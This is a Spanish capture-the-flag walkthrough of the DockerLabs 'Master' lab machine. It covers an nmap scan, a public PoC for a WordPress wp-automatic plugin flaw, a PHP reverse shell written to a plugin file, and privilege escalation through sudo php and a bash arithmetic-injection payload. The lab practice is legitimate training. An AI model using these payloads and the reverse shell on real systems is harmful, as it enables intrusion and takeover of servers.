





Máquina **Master** de [DockerLabs](https://dockerlabs.es)

Autor: [Pylon & El Pingüino de Mario](https://www.youtube.com/@Pylonet)

Dificultad: Medio



# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -n -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Fri Jan 10 16:52:54 2025 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2025-01-10 16:52:55 -03 for 16s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: CCF3F1622BBC8760E39AAB495FD4A9B1
|_http-title: Master
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-generator: WordPress 6.5.5
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 10 16:53:11 2025 -- 1 IP address (1 host up) scanned in 17.04 seconds
```

como podemos observar, solo se encuentra el puerto 80 abierto, el cual tiene un apache con un wordpress.

### Puerto 80

Si revisamos el pie de la página, veremos lo siguiente:



como vemos, se trata de el plugin wp-automatic en su versión 3.92.0 y si buscamos podemos encontrar el siguiente [PoC](https://github.com/diego-tella/CVE-2024-27956-RCE) el cual al ejecutarlo de la siguiente manera nos crea un usuario llamado "eviladmin":

```css
python3 exploit.py http://172.17.0.2/
```



por lo que ya tenemos credenciales para logearnos.

# Intrusión

Ya estando dentro del wordpress, nos vamos a la sección de "Añadir plugins" y buscamos el siguiente:



lo instalamos y lo activamos.

Cuando nos aparezca la sección del plugin, entramos y editamos el archivo "wp-mail.php" y pegamos lo siguiente:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

lo guardamos y luego escuchamos con `netcat` por el puerto 443 (`sudo nc -lvnp 443`), luego, al entrar en "wp-mail.php" recibiremos la conexión con el usuario www-data.

# Escalada De Privilegios

### www-data

Si ejecutamos `sudo -l` veremos que podemos ejecutar `php` como el usuario pylon, por lo que para escalar simplemente debemos ejecutar esto:

```css
sudo -u pylon php -r 'system("/bin/bash");'
```

### Pylon

Nuevamente, al ejecutar `sudo -l` veo que puedo ejecutar con bash un script que se encuentra en la home de mario, el problema es que no puedo leerlo, pero si revisamos la home de pylon veremos que hay un script llamado igual que cumple casi la misma función. Lo que nos interesa de esto es que en el código del script se encuentra lo siguiente:

```bash
if [[ $num -eq 1 ]]
```

y si buscamos en internet, veremos que podemos obtener una bash si escribimos lo siguiente al ejecutar el script como mario:

```css
a[$(/bin/bash >&2)]+42
```

por lo que lo ejecutamos de la siguiente manera y al introducir lo anterior escalaremos a mario:

```css
sudo -u mario bash /home/mario/pingusorpresita.sh
```

### Mario

Ahora al ejecutar `sudo -l` pasará lo mismo que antes solo que podremos ejecutar el script en la home de pylon como root, por lo que si introducimos lo mismo escalaremos a root.

### Root



Gracias por leer ;)